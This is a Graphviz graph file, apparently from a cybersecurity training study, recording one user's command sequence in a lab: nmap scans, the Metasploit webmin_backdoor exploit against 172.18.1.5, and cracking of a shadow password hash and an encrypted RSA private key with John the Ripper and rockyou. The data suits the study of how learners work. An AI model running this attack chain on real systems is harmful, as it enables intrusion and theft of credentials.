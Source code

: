 // creating graph for user: 54
digraph {
	node [shape=box]
	0 [label="ping 172.18.1.5 U"]
	1 [label="nmap -p 60000-65536 A0 A1 "]
	2 [label="nmap -p 60000-65535 A0 A1 "]
	3 [label="nmap 172.18.1.5 -p 60000-65535 M0 "]
	4 [label="nmap 172.18.1.5 -p 40000-60000 M0 "]
	5 [label="nmap 172.18.1.5 -p 20000-40000 M0 "]
	6 [label="nmap 172.18.1.5 -p 1000-20000 M0 "]
	7 [label="exit U"]
	8 [label="help U"]
	9 [label="man msf U"]
	10 [label="man msfconsole M2 "]
	11 [label="msfconsole M2 "]
	12 [label="help U"]
	13 [label="nmap 172.18.1.5 -p 10000 M0 "]
	14 [label="man nmap A0 A1 "]
	15 [label="nmap 172.18.1.5 -p 10000 -sV M1 "]
	16 [label="nikto -Help U"]
	17 [label="exit U"]
	18 [label="use exploit/linux/http/webmin_backdoor M8 "]
	19 [label="ls -a M10 "]
	20 [label="cd .msf4 U"]
	21 [label="ls A10 "]
	22 [label="cd modules U"]
	23 [label="ls A10 "]
	24 [label="ls -a M10 "]
	25 [label="cd ~ U"]
	26 [label="search webmin M3 "]
	27 [label="cd exploit M8 "]
	28 [label="search exploit/linux/http M8 "]
	29 [label="search exploit/linux/http/webmin M8 "]
	30 [label="info exploit/linux/http/webmin_packageup_rce M8 "]
	31 [label="searchsploit webmnin A1 A3 "]
	32 [label="exit U"]
	33 [label="apt update U"]
	34 [label="apt install metasploit-framework U"]
	35 [label="ls /usr/share/metasploit-framework A10 "]
	36 [label="ls /usr/share/metasploit-framework/modules A10 "]
	37 [label="ls /usr/share/metasploit-framework/modules/exploits M8 "]
	38 [label="ls /usr/share/metasploit-framework/modules/exploits/linux M8 "]
	39 [label="ls /usr/share/metasploit-framework/modules/exploits/linux/http M8 "]
	40 [label="ls /usr/share/metasploit-framework/modules/exploits/linux M8 "]
	41 [label="msfconsole M2 "]
	42 [label="search webmin M3 "]
	43 [label="search webmin_back M3 "]
	44 [label="search webmin_backdoor M3 "]
	45 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	46 [label="show targets A5 "]
	47 [label="show options M5 "]
	48 [label="help U"]
	49 [label="show options M5 "]
	50 [label="set LHOST 172.18.1.5 M6 "]
	51 [label="show options M5 "]
	52 [label="set LHOST M6 "]
	53 [label="exit U"]
	54 [label="msfconsole M2 "]
	55 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	56 [label="show options M5 "]
	57 [label="set RHOSTS 172.18.1.5 M6 "]
	58 [label="show options M5 "]
	59 [label="exploit M8 "]
	60 [label="ifconfig U"]
	61 [label="set LHOST 0.0.0.0 M6 "]
	62 [label="exploit M8 "]
	63 [label="run M8 "]
	64 [label="show options M5 "]
	65 [label="show missing A5 "]
	66 [label="show targets A5 "]
	67 [label="check 172.18.1.5 A7 "]
	68 [label="show targets A5 "]
	69 [label="show options M5 "]
	70 [label="set target 0 A6 "]
	71 [label="show options M5 "]
	72 [label="run M8 "]
	73 [label="check 172.18.1.5 A7 "]
	74 [label="back U"]
	75 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	76 [label="check 172.18.1.5 A7 "]
	77 [label="show options M5 "]
	78 [label="show targets A5 "]
	79 [label="set target 1 A6 "]
	80 [label="check 172.18.1.5 A7 "]
	81 [label="exit U"]
	82 [label="msfconsole M2 "]
	83 [label="use exploit/linux/http/webmin_backdoor M8 "]
	84 [label="show targets A5 "]
	85 [label="show options M5 "]
	86 [label="check 172.18.1.5 A7 "]
	87 [label="ifconfig U"]
	88 [label="set LHOST 10.1.135.83 M6 "]
	89 [label="check 172.18.1.5 A7 "]
	90 [label="run M8 "]
	91 [label="set RHOSTS 172.18.1.5 M6 "]
	92 [label="run M8 "]
	93 [label="nmap -sn 172.18.1.5/24 M0 "]
	94 [label="arp -a U"]
	95 [label="nmap 172.18.1.1 A0 A1 "]
	96 [label="arp -a U"]
	97 [label="nmap 147.251.6.10 A0 A1 "]
	98 [label="show options M5 "]
	99 [label="ifconfig U"]
	100 [label="msfconsole M2 "]
	101 [label="use exploit/linux/http/webmin/backdoor M8 "]
	102 [label="use exploit/linux/http/webmin/backdoor.rb M8 "]
	103 [label="use exploit/linux/http/webmin/backdoor.br M8 "]
	104 [label="use exploit/linux/http/webmin_backdoor M8 "]
	105 [label="show options M5 "]
	106 [label="set RHOSTS 172.18.1.5 M6 "]
	107 [label="ifconfig U"]
	108 [label="set LHOST 10.1.135.83 M6 "]
	109 [label="run M8 "]
	110 [label="check 172.18.1.5 A7 "]
	111 [label="nmap 10.1.17.4 A0 A1 "]
	112 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	113 [label="cat shadow A1 A9 A11 A12 A17 "]
	114 [label="echo eve:x:1003:1003::/home/eve:/bin/bash > passwd U"]
	115 [label="ls A10 "]
	116 [label="unshadow passwd shadow > mypasswd.txt U"]
	117 [label="ls A10 "]
	118 [label="cat mypasswd.txt A1 A9 A11 A12 A17 "]
	119 [label="john mypasswd.txt A14 "]
	120 [label="john shadow A14 "]
	121 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	122 [label="cat shadow A1 A9 A11 A12 A17 "]
	123 [label="echo eve:$6$024QHRGPtY7RBi.t$5mfgbDY10e7Q3HiWd2YcHRY2KWj7BRWobrSCe5kCBSw3ZMwEfFvxO625d9aQyswMr9hEGF79I1KvwswSzsklp/:18451:0:99999:7::: > shadow U"]
	124 [label="cat shadow A1 A9 A11 A12 A17 "]
	125 [label="nano shadow U"]
	126 [label="cat shadow A1 A9 A11 A12 A17 "]
	127 [label="unshadow passwd shadow > mypasswd.txt U"]
	128 [label="john mypasswd.txt A14 "]
	129 [label="run M8 "]
	130 [label="echo -----BEGIN RSA PRIVATE KEY----- U"]
	131 [label="Proc-Type: 4 U"]
	132 [label="DEK-Info: AES-128-CBC U"]
	133 [label="Ps9uCxB/vjzzEwZU+BjohF/sb/kaa+thfeYki9iFGqVQpHbPhdZU7JO2rKTU3w4k U"]
	134 [label="2OG1q9DAD07fQPpCmX5vqWAdmeaWq//2k3zRVsadFF3daPGjWs1f61j4/JqYBSDl U"]
	135 [label="yeX8g98mtBLBas7bUFuo4jVroEUaoF0fpa0Up+mOAC3rY3tsprpfofQu+uoXaRRJ U"]
	136 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	137 [label="9lS9eEPebv4V8mUNU+bsh5YQbVrVmryO9BRLBl4ZK82SO7tnyObpWfsa2jLGg4Mp U"]
	138 [label="N/jFdUnWSkA2wEgzupDZmPU6jyJ/BosOxJVkih4oQB1s9BO+HzI7oA5sDfO/gw1R U"]
	139 [label="BdC2V8RnF8i8gwppc2eenbU/PIdDTu6M2LTO4aAM5wxwKXgkTdJuUxmNH4DCFgZ+ U"]
	140 [label="/DJyNP3xqCknFLIVTBwVSsHqnHSN6ZCl8BteFdRsf6kAj6qm1/cAfL73otlGZyR7 U"]
	141 [label="5PHI1jf+WoJVaRKQLzFfaMrY0rhU6TsQTYdm2QYcSszE1fhLdXGNKpathYz1sUhe U"]
	142 [label="RPbgJfB0PuzwpzcKesh5j+AnjKQjZcG1vHnrgvDFnd5VNOOrTzdUnMA0DwwVwm2S U"]
	143 [label="vkjUvPbdIkQlNuBL0FWZl/2vHf/xWWex4Q0plLf7lRWJsCDtiKflKHL/SBFYVy0F U"]
	144 [label="TwKMZJ4885lBJfN3AG9kj4azCLK6IcAuRoxTmAtYrntQWLtDCHyaCW6dZItCtQK2 U"]
	145 [label="pghYqk7inYawVLDG9f5ej+1MYQNfScZYpQ/IEH2jfbRgQsXj7zgtS9ewQoyqBY2o U"]
	146 [label="TC+mWTFkXW5YlN9Bu1uZ2CgYQJF0Dx1ns5x3IeF+U5z56KRqaKFJPfRQgTg62m7e U"]
	147 [label="0v/8aKPlPwfmS28OtxtE96zQI3SAAy7AdwkBepz5Pk9iotqIQPk5fY68wBG67v+a U"]
	148 [label="d712Dnn4OPYaqzMTyWz/dRiWcax9bFhNV+9Gp1OoA7hhBO5daLoul3EYx54vd8N3 U"]
	149 [label="qJkjc4ljMYr9wvRRcWEhlvQV6LTk2FiYOY4tjRneLXMfsb2BUwSFDXDwDL4zVF5X U"]
	150 [label="rk6oUkbp2aFy5SgMwdlm6tc5sHVHVOLTfeyv7AvRUOaGXbbrUBw1rxgswjSO4V5q U"]
	151 [label="anC3ZW1EHY/nUmSq9myKG5rPdgFhqx7lPBb5eXSGcA+rFkxkQwbtROw73mu00IXl U"]
	152 [label="FKuYCbpmfnY0ZBxR9NVh/kRpv5VI013Mwqk2lcuJTc+mjlHOymyXAhY02j218KSm U"]
	153 [label="TleEMFlW9oXD56B21kVdPDP9McdLgC9//2pSh8sI5kJEsNd294g8ju/dDNC5kybN U"]
	154 [label="aqa9d+Nsbodr90LgBOFRdtxUeYihXLS2ZfXE5wYfTwX17ZIoFLuYamE6Og7AllVL U"]
	155 [label="uSoF68eAZXd6R9bL03s9HQvGkSZv8zaFlmK4wRVI5frYMlU5gzD5E/e6Id5X7uCQ U"]
	156 [label="pq5zI0lH1Vf4jlhYpD/PXMmULzR28OIOVrkcUeZPVlv+aIpLd6zbe8mfIEDCzH9G U"]
	157 [label="Q9Z2LPIWU200w5daHsXp/qukKdDn1CB4JinKvtLka3Q4i6EHj+Vp7bvhmFpapjdW U"]
	158 [label="/BXnD+JMm+w9ZTRsHqrXKsAEyVhM99hWoFz2k1s+Q003y/7I/0XmPETD4GJZAfqX U"]
	159 [label="WzolChBDCjWIMZ/9j5JREtzWX3s7+k32TFws/jPKzXEB21M2Szn23pkoXp+zyqT6 U"]
	160 [label="bTXmV+hQf+gS7PjVRthqPONau6on19uDDVXNeuVygP4T8H5v6kAurFVX1rvkbaSm U"]
	161 [label="sCLJmNBb/7o7QR1Hhvo7NN1z85CJr9yxC6MqLbbcv91Mhb3w1Ce2eL+QnhgE86HE U"]
	162 [label="I0lvTSHTPFgvw00pV4bypACc28X+0YjRVRFOxqZxidw256pubOjRjIHIG5n6eMYk U"]
	163 [label="W3XiLqeGN7DLwY8X6RXfqafVQmJR6j3zB/PAoSVh25eTQwl2i1rgYzo0IGcdwUxN U"]
	164 [label="KHGCl8kHWe7ks3KT4+WU9uZZAhAECaWJvLzo2Ba6dst/Ke7KEtmGwv5ExUUvfHve U"]
	165 [label="0mt+olWJFSJa072UPuHe7gWdlexqh0l59q4ohOG+zJke1u74Br9wo6KIv54IqGVS U"]
	166 [label="y2O0rVCjsin3d2h9F0Fp0Xvc3EHZD7ct2HvZEV6x3kUlfdWeHKuF+7wUeTJfSmvq U"]
	167 [label="9+LnogQTclKAVk8htnrxBQh7aPLBAyTaXACAL31bB0ZXfh0yhJX6bXIe+EVPNaf6 U"]
	168 [label="rJf/WLYf6/Lmfgv/ECF+VqdLPGkLT8dEgrajh9t2TaoU+/+mxtGXaJ7Iea9I+g9l U"]
	169 [label="22unE+jCDSQMF9IygWb8HfzBsruZ7IQ+/h7g7XDpEZrJf6+mdmbzBXLwlnnD1XG3 U"]
	170 [label="FEJ08UNnUQsuqoD+vPxunBwkFv5b/5yt0XMu9tZdXk9AW9BdasCIE1bY+au0cnTX U"]
	171 [label="rjmFQ+KmCqH5lReI0Ai3fJ8pnZ2D3/m7AV/1llNaijp9NmriqK0jiVBpnEM+uH3a U"]
	172 [label="WtUQOqd4QS2S8MwjPoBZ0hpXOY0JX95EvWhp58uOy0/o8yYSbb+bZe7g0+MJuF9R U"]
	173 [label="Rj6xI5CiBdDo83VdQHlyaUawTlv/wUpqSRc9xsK/y2dLjzQhAD+QkWbm98jrcAGX U"]
	174 [label="Tlqk1XDm0e9sNcXus5d5pnTWeCH4bnwnQDo0Ot/KljNmnG11/FXuPFnAToOq52Az U"]
	175 [label="SqV4xTHhlfTZQcjVD+Rc44JkIFTr2gzDvcLOOMwcBf232/ySokL9xuMlLVc04Jy2 U"]
	176 [label="pG3A2vBQ1t0A62BglfKCobl9JVRwFhIIh4dzevvvtCuWnXk7AhodGIVF2XnBezou U"]
	177 [label="q5ydQjEjf0ByejEAZt7EM14Ey9sHQhX83OWMb7Brqfzsfapkuplvnj1+kmIrKUaA U"]
	178 [label="ytH5k1zr7ZQ5k2FasEDPwdVjSQfOW8G3CJ8GgpFokCL+KiwfvR3mJBM5ubn0di2z U"]
	179 [label="UG2CX9gT4nU7h9RAhtu2p/F5FEGLVbX5GxJhvKP11MQqSsWI3OY3gTvG6campkyD U"]
	180 [label="r4aMTuuESZSksPLDMwgkYTvWp/qaNnVpqaSHe1p2hk2DvEhIH7eSkK9gAPBLkcJ7 U"]
	181 [label="sah7VmkiXIRvhXdcVA/QXlpG7NfOVGfm/zVDfpWPAGUrGegNb3X5Y6QTzDE4lhcK U"]
	182 [label="nano id_rsa U"]
	183 [label="file id_rsa U"]
	184 [label="john id_rsa A14 "]
	185 [label="john --format=SSH id_rsa A14 "]
	186 [label="ssh2john id_rsa > id_rsa.hash A14 A16 "]
	187 [label="cat id_rsa M12 "]
	188 [label="/usr/sbin/ss2john A14 "]
	189 [label="/usr/sbin/ssh2john A14 A16 "]
	190 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	191 [label="/usr/share/john/ssh2john.py id_rsa > id_rsa.hash A14 A16 "]
	192 [label="cat id_rsa.hash M12 "]
	193 [label="john id_rsa.hash A14 "]
	194 [label="ls /usr/share A10 "]
	195 [label="ls /usr/share/wordlists A10 "]
	196 [label="john id_rsa.hash --wordlist=/usr/share/wordlists M14 "]
	197 [label="john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	rankdir=LR
}
